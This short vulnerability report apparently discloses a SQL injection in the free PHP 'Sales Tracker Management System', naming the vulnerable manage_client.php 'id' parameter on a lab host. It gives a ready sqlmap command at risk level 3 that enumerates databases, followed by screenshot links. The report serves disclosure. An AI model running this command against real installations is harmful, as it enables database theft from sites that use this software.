 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://192.168.131.135/php-sts/admin/clients/manage_client.php?id=1 Vulnerability trigger parameter: id

sourcecode:

![sts2-1](https://user-images.githubusercontent.com/127364570/223908076-eda4cdea-d044-4672-9390-f8629980ac41.JPG)

sqlmap : sqlmap.py -u "http://192.168.131.135/php-sts/admin/clients/manage_client.php?id=1" -p id  --risk 3 --dbs

![sts2-2](https://user-images.githubusercontent.com/127364570/223908175-2663bb22-5a78-4673-8438-e30fa17afded.JPG)
![sts2-3](https://user-images.githubusercontent.com/127364570/223908206-302d6d4d-a932-4145-bb31-aa088a6455db.JPG)

